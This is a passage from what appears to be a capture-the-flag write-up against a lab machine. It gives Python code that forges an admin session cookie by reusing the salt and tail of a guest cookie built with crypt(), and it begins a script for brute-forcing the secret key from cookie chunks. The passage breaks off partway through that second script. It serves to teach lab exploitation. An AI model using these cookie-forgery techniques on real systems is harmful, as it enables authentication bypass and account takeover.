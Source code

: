```python
print("Alright, let's work some magic and become admin.")

# 1. Get a legitimate guest cookie to use as our template
print(">> Knocking on the door as 'guest' to grab a cookie...")
s = requests.Session()
s.headers.update({'User-Agent': USER_AGENT})
res = s.get(URL, allow_redirects=False)
guest_cookie = s.cookies.get('secure_cookie')

if not guest_cookie:
    print("!! Houston, we have a problem. Didn't get a cookie. Is the server up?")
    sys.exit(1)

# 2. Extract the salt and the rest of the cookie we want to keep
salt = guest_cookie[:2] # The first 2 characters are the salt
cookie_tail = guest_cookie[13:] # The rest of the cookie, which we'll reuse
print(f">> Got the salt: '{salt}'. Now to forge the admin part.")

# 3. Create our forged first block.
# The original block was for "guest:AA". We'll make one for "admin:AA".
# Both are 8 characters, so crypt() will treat them similarly.
admin_first_chunk = "admin:" + USER_AGENT
admin_first_block = crypt.crypt(admin_first_chunk, salt)
forged_cookie = admin_first_block + cookie_tail

# 4. Send the forged cookie and claim our prize!
print(">> Sending the forged cookie... Fingers crossed!")
cookies = {'user': 'admin', 'secure_cookie': forged_cookie}
res = requests.get(URL, headers={'User-Agent': USER_AGENT}, cookies=cookies)

print("\n----------------- SERVER RESPONSE -----------------")
print(res.text.strip())
print("---------------------------------------------------")
```

Running this script gives us the first flag! But the server taunts us: "Now I want the key." Challenge accepted.

### Step 5: Exploitation, Part 2 - Cracking the Secret Key

To get the secret key, we have to reverse-engineer the cookie. We know the cookie is made of encrypted 8-character chunks of the key. We can take a valid cookie, isolate each chunk, and brute-force the plaintext that generates it.

Let's get a script running.

```python
import requests
import sys
import string
from urllib.parse import unquote

# The 'crypt' module is needed, but it's not on Windows.
try:
    import crypt
except ImportError:
    print("Bummer, the 'crypt' module isn't on your system. This script won't work on Windows.")
    sys.exit(1)

# --- Point it at the target ---
IP = "10.10.183.237"
URL = f"http://{IP}/"

# We'll use all printable characters for the brute-force.
CHARSET = string.printable
```